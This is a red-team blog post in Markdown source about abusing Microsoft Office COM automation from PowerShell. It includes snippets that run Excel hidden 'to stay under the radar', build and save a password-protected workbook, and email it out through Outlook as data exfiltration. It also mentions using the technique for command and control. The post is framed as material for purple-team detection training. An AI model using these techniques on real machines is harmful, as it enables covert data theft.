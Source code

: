 ```yaml
---
title: "Automating Microsoft Office to Achieve Red Teaming Objectives"
date: 2021-07-02T12:17:54-07:00
draft: true
tags: [
        "red", "ttp"
    ]
---
```


Many Windows applications and services are implemented using an automation infrastructure called `Component Object Model (COM)`. 

`COM` has been around for decades and its useful for programming, sharing of code at binary level, usage from scripting languages, and well, red teaming. 

## Wide Usage of Component Object Model

Many products are implemented as COM objects, including Microsoft Office. Using `PowerShell` (or other languages) `COM` objects can be created to fully automate with applications. 

There is even a [Golang project to show how to invoke COM](https://github.com/go-ole/go-ole) from Go, which I'm certain real-world malware will pick up on soon.

## Exploring the Attack Angle

If a victim of a cyber attack has the Office suite installed malware can use `COM` in malicous and subversive ways. 

Importantly, this might be something that your Blue Teams is not yet trained to look for, so doing an operation in this space will be useful to build detection and investigation muscles.

Let's explore some scenarios and code examples in this blog post.

## Automating Microsoft Excel

For instance, it's quite simple to automate the popular `Excel` application via `PowerShell`. We can use the `New-Object -com` command to create the Excel Application, and subsequently interact with the returned object.

```
PS C:\> $excel = New-Object -com Excel.Application
PS C:\> $excel.Visible = $true
```

To stay under the radar and hide the user interface, use the default of `Visible = $false`.

### Editing the Excel document

As the next step we can add a `Workbook` and write some data to a specific `Cell`.

```
PS C:\> $workbook = $excel.Workbooks().Add()
PS C:\> $cell = $workbook.ActiveSheet.Cells(1,1)
PS C:\> $cell.Value = "Here goes the secret message!"
PS C:\> $workbook.Password = "Test"
```

This is how the result looks like:

![Using Excel Automation](/blog/images/2021/excel.PNG)

The above images shows the created Excel document. *Remember that we set `Visible=$true` - this to demo what is possible, during an attack an adversary would not show the user interface.*

### Saving the document

Using the `SaveAs` function the document can be stored.

```
PS C:\> $workbook.SaveAs("EmbraceTheRed")
```

### Closing the document

Finally, Excel can be closed.

```
PS C:\> $workbook.Close()
PS C:\> $excel.Quit()
```

### Data Exfiltration - Emailing the document

As said all most of Office is implemented using COM interfaces, so we can automate `Outlook` as well. 

In order to send the created `Excel` document out of the network, an adversary could use `Outlook` for instance. 

```
$to = ""
$subject = "Secret Excel Document"
$content = "Important message attached."

$outlook = New-Object -com Outlook.Application
$mail = $outlook.CreateItem(0)
$mail.Attachments.Add("EmbraceTheRed")
$mail.subject = $subject
$mail.To = $to
$mail.HTMLBody = $content

$mail.Send()
```

Note, by default this should use the current users Outlook profile.

Alternatively you could just use the Excel built in `SendMail` API which is [documented here](https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.sendmail).


## Command & Control via Office Automation

Using these COM automation techniques its possible to use off the shelve applications installed on a compromised machine to exfiltrate data, but also to establish an entire C2 infrastructure and message communication. 

The MITRE ATT&CK matrix also [highlights a couple of real world attacks](https://attack.mitre.org/techniques/T1559/001/) that have used COM.

## Conclusion

COM Automation and scripting langauges are a powerful way to exfiltrate data using existing applications already present on a compromised host. 

**In my opinion these TTPs are a good candidates for a purple team operations.**


Cheers,
[@wunderwuzzi23](https://twitter.com/wunderwuzzi23)

If you found this interesting check out my book about [Cybersecurity Attacks - Red Team Strategies](https://www.amazon.com/gp/product/1838828869/ref=as_li_tl?ie=UTF8&tag=wunderwuzzi-20&camp=1789&creative=9325&linkCode=as2&creativeASIN=1838828869&linkId=07bfd6b729fbc2b2904160e0e16c337f).


## References

1. [Golang projects that show how to use COM from Go](https://github.com/go-ole/go-ole). 
1. [SendMail Excel API](https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.sendmail)
1. [COM and MITRE Attack](https://attack.mitre.org/techniques/T1559/001/)